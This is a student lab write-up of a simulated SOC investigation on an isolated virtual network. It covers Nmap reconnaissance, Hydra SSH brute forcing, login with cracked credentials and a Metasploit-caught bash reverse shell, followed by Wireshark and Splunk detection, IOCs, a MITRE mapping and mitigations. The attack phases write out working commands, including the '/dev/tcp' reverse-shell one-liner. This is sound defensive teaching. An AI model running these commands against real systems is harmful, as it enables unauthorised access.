

# SOC Investigation Simulation — Project Write-up

> **Project:** End-to-End SOC Investigation Simulation
> 

> **Course:** MSci Cyber Security — Year 1, Lab Project
> 

> **Tools:** VirtualBox · Kali Linux · Ubuntu Server · Nmap · Hydra · Metasploit · Wireshark · Splunk Enterprise
> 

> 📖 **Read alongside:** [🛡️ Fundamentals] for theory
> 

---

# 🗺️ Lab Environment

## Network Architecture

The lab runs entirely on a single Windows host using VirtualBox. A host-only network (`192.168.102.x`) isolates all attack traffic within the machine — no traffic reaches the real home network at any point.

```jsx
Kali Linux  (192.168.102.4)  ← ATTACKER
  ├── Nmap  →  scans Ubuntu for open ports
  ├── Hydra  →  brute forces SSH credentials
  ├── SSH  →  authenticates with stolen credentials
  └── Metasploit  →  listens on port 4444 for reverse shell

Ubuntu Server  (192.168.102.3)  ← TARGET
  ├── auth.log  →  forwarded to Splunk on Windows Host
  ├── syslog/IPTABLES  →  forwarded to Splunk on Windows Host
  └── bash payload  →  initiates outbound TCP to Kali:4444

Windows Host  (192.168.102.1)  ← SIEM
  └── Splunk Enterprise  →  indexes all Ubuntu logs in real time

Wireshark  (running on Kali, capturing eth0)
  └── Records every packet of the entire attack chain
        └── Display filter: ip.addr == 192.168.102.3
              └── Follow TCP Stream → full session reconstructed
```

> The host-only network is critical for ethical containment. All attack traffic stays within the Windows host machine. Running these payloads on a bridged or NAT network could send malicious traffic onto your real home network — potentially illegal under the Computer Misuse Act 1990 without explicit written permission from the system owner.
> 

---

### Figure 1 — Lab Environment IP Addresses

*Screenshot: IP address table confirming Windows Host (`192.168.102.1`), Kali Linux (`192.168.102.4`), and Ubuntu Server (`192.168.102.3`) on the host-only network — all three VMs visible and reachable*



| Machine | Role | IP Address |
| --- | --- | --- |
| **Windows Host** | Runs Splunk Enterprise · gateway for host-only network | `192.168.102.1` |
| **Kali Linux VM** | Attacker · runs Nmap · Hydra · Metasploit · Wireshark | `192.168.102.4` |
| **Ubuntu Server VM** | Target · IPTABLES logging enabled · Splunk Forwarder installed | `192.168.102.3` |

---

# 🔧 Pre-Attack Setup — Evidence Capture

## Starting Wireshark Before the Attack

Evidence captured after the fact is incomplete evidence. Wireshark was launched on Kali and set to capture on `eth0` before a single attack packet was generated. This ensures the full attack chain — from the first Nmap SYN probe to the final reverse shell command — is preserved as forensic evidence.

## Display Filter Applied

```
ip.addr == 192.168.102.3
```

This isolates all traffic involving the target machine, removing unrelated broadcast and ARP packets that would clutter the capture.

## Confirming Splunk is Receiving Logs

Before starting the attack, Splunk was verified to be actively indexing Ubuntu's logs:

```
index=* host="ubuntu-target"
```

A result confirmed real-time log forwarding was active. **Splunk must be receiving logs before the attack begins** — events that occur before indexing starts are lost permanently.

---

### Figure 2 — Wireshark Capturing on eth0

*Screenshot: Wireshark running on Kali with `ip.addr == 192.168.102.3` display filter applied — capture active on eth0 — packet list updating in real time before any attack traffic is generated*


---

# 🔍 Phase 1 — Reconnaissance

## What Is Network Reconnaissance?

Before exploiting a target, an attacker must discover what services are exposed. Nmap's aggressive scan (`-A`) combines port discovery, service version detection, OS fingerprinting, and default script scanning into a single command — providing a complete picture of the target's attack surface.

## Nmap Command

```bash
nmap -A 192.168.102.3
```

| Flag | Purpose |
| --- | --- |
| `-A` | Aggressive scan — combines `-sS`, `-sV`, `-O`, and `-sC` |
| `-sS` | SYN scan — sends SYN, reads response, never completes handshake |
| `-sV` | Version detection — identifies exact software on each open port |
| `-O` | OS detection — fingerprints the target operating system |
| `-sC` | Default scripts — runs basic NSE enumeration scripts |

## Findings

| Port | State | Service | Version |
| --- | --- | --- | --- |
| `22/tcp` | Open | SSH | OpenSSH 10.2p1 Ubuntu 2ubuntu3 |

Only port 22 was open. This immediately focused the attack on SSH as the sole entry point and ruled out web application or database attacks.

> A single open port dramatically limits the attacker's options — but SSH with password authentication enabled is itself a significant vulnerability if weak credentials are in use. The attack chain pivots entirely on this.
> 

## Wireshark Evidence — SYN Scan Pattern

The aggressive scan produced an immediately distinctive pattern in Wireshark — hundreds of SYN packets hitting sequential port numbers in milliseconds, with RST responses from closed ports and a single SYN-ACK on port 22.

| Observation | Significance |
| --- | --- |
| Rapid SYN packets to sequential ports | Machine-generated — impossible at human speed |
| RST responses from closed ports | Confirms ports 1–21, 23+ are all closed |
| Single SYN-ACK from port 22 | Confirms SSH is open and listening |
| ICMP probe before SYN flood | Nmap confirming host is alive before scanning |

---

### Figure 3 — Nmap Scan Results

*Screenshot: Nmap terminal output showing `22/tcp open ssh OpenSSH 10.2p1 Ubuntu 2ubuntu3` — OS detected as Linux — MAC address confirming Oracle VirtualBox NIC — `Not shown: 999 closed tcp ports (reset)`*


---

### Figure 4 — Wireshark SYN Scan Traffic

*Screenshot: Wireshark showing rapid SYN packets from `192.168.102.4` to `192.168.102.3` across sequential ports — RST responses from closed ports — single SYN-ACK visible on port 22 — ICMP probe packets visible at top of capture*


---

# 🔑 Phase 2 — Credential Brute Force

With only SSH exposed, the attack proceeds by systematically testing passwords from a known wordlist until the correct one is found. Hydra automates this at machine speed — making hundreds of attempts per minute that would be impossible manually.

## Hydra Command

```bash
hydra -l s3rvic -P /usr/share/wordlists/rockyou.txt -t 2 -V ssh://192.168.102.3
```

| Flag | Value | Purpose |
| --- | --- | --- |
| `-l` | `s3rvic` | Single target username (lowercase `-l` = one username) |
| `-P` | `rockyou.txt` | Password wordlist — 14M+ real-world leaked passwords |
| `-t 2` | — | 2 parallel threads — prevents overwhelming SSH and causing lockout |
| `-V` | — | Verbose — prints every attempt as it happens |
| `ssh://` | `192.168.102.3` | Target protocol and IP address |

## Result

```
[22][ssh] host: 192.168.102.3   login: s3rvic   password: password1
1 of 1 target successfully completed, 1 valid password found
```

`password1` appeared in the rockyou.txt wordlist — a direct consequence of using a weak, common password. Hydra found it after **442 attempts**.

## Splunk Evidence

```
index=main sourcetype="linux_secure" "Failed password" host="ubuntu-target"
| stats count by host

Result:  ubuntu-target  →  442 events
```

442 failed SSH login attempts from a single IP in under two minutes is unambiguously machine-generated. A threshold-based Splunk alert set at >10 failures per minute from the same source IP would have fired within the first few seconds of Hydra starting.

---

### Figure 5 — Hydra Discovering Valid Credentials

*Screenshot: Hydra terminal output showing verbose attempt list ending with `[22][ssh] host: 192.168.102.3 login: s3rvic password: password1` — `1 of 1 target successfully completed, 1 valid password found`*


---

### Figure 6 — Splunk: 442 Failed Login Attempts

*Screenshot: Splunk search `index=main sourcetype="linux_secure" "Failed password" host="ubuntu-target" | stats count by host` — statistics view showing `ubuntu-target` with a count of 442*


---

# 🚪 Phase 3 — Initial Access via SSH

## SSH Login with Stolen Credentials

With valid credentials in hand, a direct SSH login was made to Ubuntu

```bash
ssh s3rvic@192.168.102.3
# Password: password1
```

Login confirmed by Ubuntu's welcome banner:

```
Welcome to Ubuntu 26.04 LTS (GNU/Linux 7.0.0-14-generic x86_64)
```

> **Why this matters for detection:** The attacker did not exploit a software vulnerability. They authenticated as a legitimate user. From Ubuntu's perspective this is a valid login — detection depends entirely on the anomalous volume of failed attempts that preceded it.
> 

## Commands Run After Login

```bash
whoami     # → s3rvic
ip a       # → confirmed 192.168.102.3 on enp0s3
```

Running as `s3rvic` rather than `root` limits the attacker's capabilities — they cannot delete system logs, create new users, or install persistent backdoors without further privilege escalation.

## Splunk Evidence

```
index=main sourcetype="linux_secure" "Accepted password" host="ubuntu-target"

Result: 6 accepted password events from 192.168.102.4
```

The `Accepted password` event is the **critical pivot point** in this incident timeline — the exact moment unauthorised access was achieved. Every event before this is attack preparation; everything after is post-exploitation.

---

### Figure 7 — Successful SSH Login

*Screenshot: Terminal on Kali showing `ssh s3rvic@192.168.102.3` — Ubuntu welcome banner confirming `Welcome to Ubuntu 26.04 LTS` — shell prompt changed to `s3rvic@ubuntu-target:~$`*


---

### Figure 8 — Splunk: Accepted Password Events

*Screenshot: Splunk search returning 6 `Accepted password` events for `s3rvic` from `192.168.102.4` — timestamps visible — source shown as `/var/log/auth.log` — sourcetype `linux_secure`*


---

# 💻 Phase 4 — Reverse Shell Establishment

Rather than the attacker connecting inward to the target (which a firewall would block), the target machine initiates an outbound connection back to the attacker. The attacker's machine listens for this connection and receives an interactive shell when it arrives.

## Stage 1 — Configure the Metasploit Listener (Kali)

Inside `msfconsole`, a handler was configured to receive the incoming connection:

```bash
use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 192.168.102.4
set LPORT 4444
exploit
```

| Option | Value | Purpose |
| --- | --- | --- |
| `PAYLOAD` | `generic/shell_reverse_tcp` | Accepts any raw shell — correct for a bash one-liner |
| `LHOST` | `192.168.102.4` | Kali's IP — where Ubuntu calls back to |
| `LPORT` | `4444` | Listening port — must be open and unused on Kali |

Handler confirmed live:

```
[*] Started reverse TCP handler on 192.168.102.4:4444
```

## Stage 2 — Execute the Payload on Ubuntu (via SSH session)

From the active SSH session on Ubuntu, the reverse shell was triggered:

```bash
bash -i >& /dev/tcp/192.168.102.4/4444 0>&1
```

| Component | Meaning |
| --- | --- |
| `bash -i` | Spawns an interactive bash shell |
| `/dev/tcp/192.168.102.4/4444` | Linux raw TCP connection — treated as a file by the OS |
| `>&` | Redirects stdout and stderr to the TCP connection |
| `0>&1` | Redirects stdin to receive input from the TCP connection |

The Ubuntu SSH terminal froze — the shell was now piping all I/O to Kali on port 4444.

## Session Opened

Immediately on Kali's Metasploit terminal:

```
[*] Command shell session 1 opened
    (192.168.102.4:4444 → 192.168.102.3:52804)
    at 2026-06-14 16:09:23 -0400
```

Post-exploitation enumeration was run from Kali — executing on Ubuntu:

```bash
whoami     # → s3rvic
ip a       # → 192.168.102.3 confirmed on enp0s3
```

---

### Figure 9 — Metasploit Session Opened

*Screenshot: Metasploit terminal on Kali showing `[*] Started reverse TCP handler on 192.168.102.4:4444 `followed by` [*] Command shell session 1 opened (192.168.102.4:4444 → 192.168.102.3:52804)` — shell prompt active*


---

### Figure 10 — Post-Exploitation Enumeration

*Screenshot: Metasploit shell showing `whoami` returning `s3rvic` and `ip a` returning full network interface output confirming `192.168.102.3` on `enp0s3` — all commands executing on Ubuntu from Kali's terminal*


---

# 🦈 Wireshark Analysis — Reverse Shell Session

## Capturing the Traffic

With Wireshark still running on `eth0`, the reverse shell traffic was isolated with the display filter:

```
tcp.port == 4444 && tcp.flags.syn == 1
```

This revealed 4 packets — the TCP handshake establishing the reverse shell connection — confirming Ubuntu initiated an outbound connection to Kali on port 4444.

## What the Packets Reveal

| Indicator | Value Observed | Significance |
| --- | --- | --- |
| Source IP | `192.168.102.3` (Ubuntu) | Victim initiating the outbound connection |
| Destination IP | `192.168.102.4` (Kali) | Attacker receiving the call-home |
| Destination port | `4444` | Non-standard port — no legitimate service uses 4444 |
| TCP flags | SYN → SYN-ACK → ACK → PSH | Full handshake followed by active data transfer |
| Session duration | Several minutes | Interactive session — not a one-time request |

## Follow TCP Stream — Complete Session Visible

Right-clicking any port 4444 packet → **Follow → TCP Stream** reconstructed the entire session:

- 🔴 **Red text** — attacker (Kali) commands typed
- 🔵 **Blue text** — victim (Ubuntu) responses returned

The stream showed every command typed (`whoami`, `ip a`) and every response — in complete plain text. **Zero encryption. Fully readable.**

> **This is the critical weakness of bash reverse shells.** Every command and every response is visible to any analyst who captures the traffic. In a real incident, this packet capture would be a complete transcript of everything the attacker did on the target system — evidence that cannot be disputed.
> 

## Comparison — SSH Traffic vs Reverse Shell Traffic

|  | SSH Session (port 22) | Reverse Shell (port 4444) |
| --- | --- | --- |
| **Protocol** | SSH — encrypted by design | Raw TCP — no encryption layer |
| **Wireshark stream** | Encrypted binary — unreadable | Plain text — every command visible |
| **Can analyst read commands?** | ❌ No | ✅ Yes — completely |
| **Why different?** | SSH built encryption in from the start | Bash piped over raw TCP has no encryption |

---

### Figure 11 — Wireshark Port 4444 Filter Applied

*Screenshot: Wireshark with `tcp.port == 4444 && tcp.flags.syn == 1` filter applied — 4 packets shown — SYN and SYN-ACK packets between `192.168.102.4` and `192.168.102.3` confirming reverse shell connection established*


---

### Figure 12 — Follow TCP Stream — Plain Text Session

*Screenshot: Wireshark Follow TCP Stream dialog for port 4444 — red text showing attacker commands `whoami` and `ip a` — blue text showing Ubuntu's responses including `s3rvic` and full `ip a` output — entire session readable as plain text*


---

# 📊 Splunk Investigation

## Authentication Log Analysis

### Failed Login Attempts — Brute Force Evidence

```
index=main sourcetype="linux_secure" "Failed password" host="ubuntu-target"
| stats count by host
```

| host | count |
| --- | --- |
| ubuntu-target | **442** |

### Successful Login — Access Confirmed

```
index=main sourcetype="linux_secure" "Accepted password" host="ubuntu-target"
| table _time, host, source
```

Returns 6 accepted password events from `192.168.102.4` — the most recent being the manual SSH login that preceded the reverse shell.

### Timeline Visualisation — Brute Force Spike

```
index=main sourcetype="linux_secure" "Failed password" host="ubuntu-target"
| timechart count span=1m
```

Produces a line chart showing a sudden spike to 100+ events per minute — then silence. This pattern is the visual signature of an automated credential attack and is immediately recognisable to any analyst.

## Port 4444 — C2 Activity

```
index=main host="ubuntu-target" "4444"
```

Returns **106 events** — Ubuntu's IPTABLES firewall logging every packet of the reverse shell session. This is a second independent source confirming the same event captured in Wireshark.

| Field | Value |
| --- | --- |
| Source | `/var/log/syslog` |
| Source Type | `syslog` |
| Event content | `IPTABLES: SRC=192.168.102.4 DST=192.168.102.3 SPT=4444` |

> **Why two independent sources matter:** Wireshark shows the packet content; Splunk's IPTABLES logs show the firewall's record of the same traffic. An attacker with root access could delete the PCAP — but IPTABLES logs already forwarded to a remote Splunk instance are significantly harder to tamper with.
> 

---

### Figure 13 — Splunk Port 4444 IPTABLES Events

*Screenshot: Splunk search `index=main host="ubuntu-target" "4444"` returning 106 events — event details showing `IPTABLES: SRC=192.168.102.4 DST=192.168.102.3 SPT=4444` — sourcetype `syslog` from `/var/log/syslog`*


---

### Figure 14 — Splunk Incident Dashboard

*Screenshot: Full Splunk dashboard showing all five panels — SSH Brute Force Attempts Over Time (line chart spike visible), Successful SSH Logins (table), Reverse Shell C2 Activity Port 4444 (line chart), Full Incident Timeline (chronological table), Evidence Integrity Record (SHA256 hash table)*


---

# 🔍 Detection Analysis

## Network Indicators of Compromise (IOCs)

| IOC | Value | Source | Detectable? |
| --- | --- | --- | --- |
| **Attacker IP** | `192.168.102.4` | Wireshark + Splunk | ✅ All sources |
| **Compromised credentials** | `s3rvic : password1` | Hydra output + Splunk | ✅ Accepted password event |
| **Brute force volume** | 442 failed logins in <2 min | Splunk auth.log | ✅ Threshold alert fires instantly |
| **Non-standard port** | Port `4444/TCP` outbound | Wireshark + IPTABLES | ✅ Both sources |
| **Victim-initiated outbound** | Ubuntu → Kali:4444 | Wireshark SYN direction | ✅ Reverse connection visible |
| **Plain text C2 session** | TCP stream on port 4444 | Wireshark Follow Stream | ✅ Every command readable |
| **Evidence file** | `soc_investigation.pcapng` | SHA256: `7825b0ca...958fb` | ✅ Integrity verified |

## MITRE ATT&CK Mapping

| ID | Technique | Tactic | What Happened |
| --- | --- | --- | --- |
| **T1046** | Network Service Scanning | Reconnaissance (TA0043) | Nmap `-A` scanned all ports on Ubuntu |
| **T1110.001** | Brute Force: Password Guessing | Credential Access (TA0006) | Hydra made 442 SSH login attempts |
| **T1078** | Valid Accounts | Initial Access (TA0001) | SSH login using discovered credentials |
| **T1059.004** | Unix Shell | Execution (TA0002) | Bash reverse shell one-liner executed |
| **T1033** | System Owner/User Discovery | Discovery (TA0007) | `whoami` and `ip a` run post-access |

---

# ✅ Summary

## Key Findings

| Finding | Detail |
| --- | --- |
| 🔴 Nmap reconnaissance scan | Kali (`192.168.102.4`) performed aggressive scan — port `22` (OpenSSH 10.2p1) identified as sole entry point |
| 🔴 SSH brute force attack | Hydra made 442 failed attempts against `s3rvic` — `password1` found in rockyou.txt wordlist |
| 🔴 Unauthorised SSH login | Valid credentials used to authenticate — `Accepted password` event logged in Splunk at 15:46:23 |
| 🔴 Reverse shell established | Bash one-liner executed on Ubuntu — command shell session opened to Kali port `4444` at 16:09:23 |
| 🟡 Reverse shell fully visible in Wireshark | Follow TCP Stream on port 4444 revealed every command and response in plain text — zero encryption |
| 🟡 106 IPTABLES events in Splunk | Firewall logged every C2 packet — second independent source corroborating Wireshark capture |
| ✅ Full attack chain captured end-to-end | Wireshark preserved all four phases — Nmap scan through reverse shell session termination |
| ✅ Evidence integrity preserved | PCAP SHA256 hashed immediately after capture — any tampering would produce a different hash |
- 🔒 Containment & Production Improvements
    
    **Immediate Containment Actions**
    
    - **Block port 4444** — `sudo ufw deny 4444` — terminate the active C2 channel
    - **Lock compromised account** — `sudo usermod -L s3rvic` — prevent credential reuse
    - **Check for lateral movement** — review auth.log for any connections FROM ubuntu-target to other machines during the attack window
    - **Audit for persistence** — inspect cron jobs, `~/.bashrc`, and new user accounts created during the attack window
    
    **Long-Term Recommendations**
    
    - **Switch to SSH key-based authentication** — eliminates the password attack surface entirely. With keys only, brute force attacks become computationally infeasible regardless of wordlist size
    - **Deploy fail2ban** — automatically blocks source IPs after N failed SSH attempts. A rule of 5 failures in 60 seconds would have blocked Kali after the first 5 of 442 attempts
    - **Enforce password complexity policy** — `password1` appears in every major wordlist. A minimum 12-character policy with complexity requirements removes the vast majority of rockyou.txt entries as viable candidates
    - **Create Splunk alert: >10 failed logins in 60 seconds** — automates detection of this exact attack pattern. The alert would fire within seconds of Hydra starting — long before it succeeds
    - **Restrict SSH access by source IP** — most servers only need SSH from known management IPs. A firewall rule blocking all other source IPs removes the attack surface entirely for external attackers
    - **Use encrypted C2 channels in production testing** — real attackers use port 443 with TLS encryption rather than raw port 4444 TCP. Detection must shift from content inspection to behavioural analysis: non-standard processes initiating outbound connections, large initial data transfers, persistent long-lived sessions

---
